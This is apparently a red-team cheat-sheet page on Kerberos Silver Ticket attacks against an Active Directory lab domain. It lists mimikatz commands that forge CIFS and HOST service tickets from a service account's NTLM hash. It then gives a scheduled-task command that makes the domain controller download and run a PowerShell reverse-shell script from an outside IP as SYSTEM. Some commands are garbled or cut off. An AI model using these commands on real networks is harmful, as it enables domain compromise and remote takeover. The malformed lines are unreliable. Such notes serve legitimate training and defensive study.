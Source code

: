 # Silver Ticket

### Silver Ticket Attack <a href="#silver-ticket-attack" id="silver-ticket-attack"></a>

rc4 = NTLM of service account sid = sid of the domain

```powershell
//For Cifs
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'

//For host
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST opl;//rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'



//Schedule and execute a task
// Also modify the Invoke-PowerShellTcp.ps1 
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local/SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"


schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"


iwr -UseDefaultCredentials http://web04
```

#### Silver Ticket <a href="#silver-ticket" id="silver-ticket"></a>

```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:w
```
